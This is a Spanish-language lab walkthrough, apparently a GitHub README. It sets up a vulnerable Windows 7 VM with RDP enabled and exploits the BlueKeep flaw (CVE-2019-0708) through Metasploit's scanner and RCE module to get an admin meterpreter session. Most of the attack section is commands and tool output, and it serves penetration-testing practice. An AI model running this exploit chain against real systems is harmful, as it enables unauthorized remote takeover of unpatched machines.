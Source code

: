 # Conf W7 Professional 64 bits Vuln BlueKeep

Primero obtendremos la OVA de un windows 7.

URL OVA = https://drive.google.com/file/d/1bwoAZpjrCqWljwbMoLmoLQRC5i1W\_pWQ/view?usp=sharing

Y si queremos la ISO para configurar los siguientes pasos desde 0 en la siguiente URL.

URL ISO = https://drive.google.com/file/d/1XDKg0wmhKDtC-CoPcKQwWD34nWr58YKF/view?usp=sharing

> Credentials W7

URL = https://drive.google.com/file/d/1k\_ne4v4IHBWFvQti9vox0Gyq2XNTGglk/view?usp=drive\_link

Una vez que hayamos importado la ISO en VMWare, los pasos de configuracion seran los siguientes.

Dentro de Windows 7 en el menu de configuracion del inicio, seleccionaremos la siguiente edicion.

```
Windows 7 Professional
```

> NOTA IMPORTANTE

Es importante elegir esta edicion, ya que de lo contrario no podremos obtener el puerto RPD (3389) para hacer nuestras pruebas de penetracion con el exploit BlueKeep.

Seguimos los siguientes pasos de normal.

Una vez dentro abrimos el cmd como administrador y pondremos los siguientes coamndos para habilitar el puerto RPD (3389).

```shell
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

Creamos una regla en el Firewall para permitirlo.

```shell
netsh advfirewall firewall add rule name="Allow RDP" protocol=TCP dir=in localport=3389 action=allow
```

Y con esto verificamos que el puerto 3389 este activo.

```shell
netstat -an | find "3389"
```

Ahora en nuestra maquina atacante, ejecutaremos el `nmap` para verificar que este activo el puerto 3389 (RPD) en la maquina victima.

```shell
nmap -sCV -p3389 <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-26 12:46 CEST
Nmap scan report for 192.168.5.140
Host is up (0.00042s latency).

PORT     STATE SERVICE    VERSION
3389/tcp open  tcpwrapped
| ssl-cert: Subject: commonName=exploitbluekeep
| Not valid before: 2024-07-25T10:44:48
|_Not valid after:  2025-01-24T10:44:48
MAC Address: 00:0C:29:24:51:3E (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.91 seconds
```

Vemos que si esta activo, por lo que ahora pasaremos a la explotacion del exploit `BlueKeep`.

## Explotacion con exploit BlueKeep

Primero haremos un scanner para ver si es vulnerable al BlueKeep.

```shell
msfconsole -q
```

```shell
search bluekeep
```

Seleccionamos el scanner.

```shell
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
```

Configuramos para que scanee a la IP victima.

```shell
show options
```

```shell
set RHOSTS <IP>
```

Ejecutamos el exploit.

```shell
run
```

Info:

```
[+] 192.168.5.140:3389    - The target is vulnerable. The target attempted cleanup of the incorrectly-bound MS_T120 channel.
[*] 192.168.5.140:3389    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Por lo que vemos dice que si es vulnerable, por lo que pasaremos a explotarlo del todo.

```shell
search bluekeep
```

Utilizamos el exploit con el que nos va a crear una shell a la maquina windows.

```shell
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
```

Configuramos todo el exploit.

```shell
show options
```

```shell
set RHOSTS <IP>
```

```shell
show targets
```

Info:

```
Exploit targets:
=================

    Id  Name
    --  ----
=>  0   Automatic targeting via fingerprinting
    1   Windows 7 SP1 / 2008 R2 (6.1.7601 x64)
    2   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - Virtualbox 6)
    3   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - VMWare 14)
    4   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - VMWare 15)
    5   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - VMWare 15.1)
    6   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - Hyper-V)
    7   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - AWS)
    8   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - QEMU/KVM)
```

Aqui seleccionamos el que se adapte a nuestras necesidades.

```shell
set target 4
```

Ejecutamos el exploit.

```shell
exploit
```

Y con esto ya nos habria creado una sesion con un meterpreter autenticada como admin.

